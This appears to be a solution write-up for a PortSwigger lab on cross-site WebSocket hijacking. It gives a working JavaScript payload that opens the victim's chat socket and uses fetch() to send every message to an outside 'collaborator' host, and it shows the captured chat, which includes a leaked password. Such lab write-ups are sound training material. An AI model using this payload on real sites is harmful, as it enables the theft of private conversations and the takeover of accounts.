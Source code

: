 # [Lab: Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)

## Lab

This online shop has a live chat feature implemented using WebSockets.

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

## Analysis

WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

## Solutions

exploit server:

- response body:

  ```js
  <script>
      var ws = new WebSocket('wss://id.web-security-academy.net/chat');
      ws.onopen = function() {
          ws.send("READY");
      };
      ws.onmessage = function(event) {
          fetch('https://collaborator', {method: 'POST', mode: 'no-cors', body: event.data});
      };
  </script>
  ```

- check request to collaborator:

  ```json
  {"user":"You","content":"I forgot my password"}
  ```

  ```json
  {"user":"Hal Pline","content":"No problem carlos, it&apos;s mn74177fd0xexj8ahl3p"}
  ```

